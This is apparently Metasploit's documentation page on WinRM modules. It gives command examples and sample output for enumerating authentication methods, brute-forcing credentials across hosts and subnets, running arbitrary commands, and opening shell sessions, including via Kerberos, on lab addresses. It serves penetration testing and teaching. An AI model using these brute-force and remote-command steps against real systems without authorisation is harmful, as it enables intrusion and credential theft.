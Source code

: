 ## WinRM Workflows

Windows Remote Management (WinRM), is a way for clients to remotely manage Windows computers. WinRM is built on top of the Simple Object Access Protocol (SOAP) over HTTP(S).

There are two main ports for WinRM:

- 5985/TCP - HTTP
- 5986/TCP - HTTPS

On older versions of Windows such as Windows 7/Windows Server 2008 the following ports were used:

- 80/TCP - HTTP
- 443/TCP - HTTPS

Important: Before running the chosen WinRM Metasploit module, first ensure that the `RPORT` and `SSL` values are configured correctly.
Either with the modern inline option support:

```
use scanner/winrm/winrm_auth_methods

run http://192.168.123.139:5985
run https://192.168.123.139:5986
```

Or by manually setting options:

```
use scanner/winrm/winrm_auth_methods
set RHOST 192.168.123.139
set RPORT 5985
set SSL false
run
```

Metasploit has support for multiple WinRM modules, including:

- Authentication enumeration
- Verifying/bruteforcing credentials
- Running commands and opening sessions

There are more modules than listed here, for the full list of modules run the `search` command within msfconsole:

```msf
msf6 > search winrm
```

### Lab Environment

The WinRM modules work against Windows instances which have WinRM installed and configured.

For a domain controller the `Allow remote server management through WinRM` policy will need be enabled.
It is only possible to use WinRM against accounts which are part of the `Remote Management Users` group.

WinRM over HTTPS requires the creation of a Server Authenticating Certificate, as well as enabling the transport mode:

```
winrm quickconfig -transport:https
```

### Authentication Enumeration

Enumerate WinRm authentication mechanisms:

```
use scanner/winrm/winrm_auth_methods
run http://192.168.123.139:5985
run https://192.168.123.139:5986
```

Example:

```msf
msf6 auxiliary(scanner/winrm/winrm_auth_methods) > run http://192.168.123.139:5985

[+] 192.168.123.139:5985: Negotiate protocol supported
[+] 192.168.123.139:5985: Kerberos protocol supported
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### WinRM Bruteforce

Brute-force host with known user and password list:

```
use scanner/winrm/winrm_login
run https://known_user@192.168.222.1:5986 threads=50 pass_file=./wordlist.txt
```

Brute-force credentials:

```
use scanner/winrm/winrm_login
run http://192.168.123.139:5985 threads=50 user_file=./users.txt pass_file=./wordlist.txt
```

Brute-force credentials in a subnet:

```
use scanner/winrm/winrm_login
run cidr:/24:http://user:pass@192.168.222.0:5985 threads=50
run cidr:/24:http://user@192.168.222.0:5985 threads=50 pass_file=./wordlist.txt
```

### WinRM CMD

To execute arbitrary commands against a windows target:

```
use scanner/winrm/winrm_cmd
run http://user:pass@192.168.123.139:5985 cmd='whoami; ipconfig; systeminfo'
```

### WinRM Login Session

If you have valid credentials the `scanner/winrm/winrm_login` module will open a Metasploit session for you:

```
use scanner/winrm/winrm_login
run http://user:pass@192.168.123.139:5985
```

Example:

```msf
msf6 auxiliary(scanner/winrm/winrm_login) > run http://user:pass@192.168.123.139:5985

[!] No active DB -- Credential data will not be saved!
[+] 192.168.123.139:5985 - Login Successful: WORKSTATION\user:pass
[*] Command shell session 7 opened (192.168.123.1:58673 -> 192.168.123.139:5985 ) at 2022-04-23 02:36:34 +0100
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/winrm/winrm_login) > sessions -i -1
[*] Starting interaction with 7...

Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Users\user>
```

### Kerberos Authentication

Details on the Kerberos specific option names are documented in [[Kerberos Service Authentication|kerberos/service_authentication]]

Open a WinRM session:

```msf
msf6 > use auxiliary/scanner/winrm/winrm_login
msf6 auxiliary(scanner/winrm/winrm_login) > run rhost=192.168.123.13 username=Administrator password=p4$$w0rd winrm::auth=kerberos domaincontrollerrhost=192.168.123.13 winrm::rhostname=dc3.demo.local domain=demo.local

[+] 192.168.123.13:88 - Received a valid TGT-Response
[*] 192.168.123.13:5985   - TGT MIT Credential Cache ticket saved to /Users/user/.msf4/loot/20230118120604_default_192.168.123.13_mit.kerberos.cca_451736.bin
[+] 192.168.123.13:88 - Received a valid TGS-Response
[*] 192.168.123.13:5985   - TGS MIT Credential Cache ticket saved to /Users/user/.msf4/loot/20230118120604_default_192.168.123.13_mit.kerberos.cca_889546.bin
[+] 192.168.123.13:88 - Received a valid delegation TGS-Response
[+] 192.168.123.13:88 - Received AP-REQ. Extracting session key...
[+] 192.168.123.13:5985 - Login Successful: demo.local\Administrator:p4$$w0rd
[*] Command shell session 1 opened (192.168.123.1:50722 -> 192.168.123.13:5985) at 2023-01-18 12:06:05 +0000
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/winrm/winrm_login) > sessions -i -1
[*] Starting interaction with 1...

Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Users\Administrator>
```
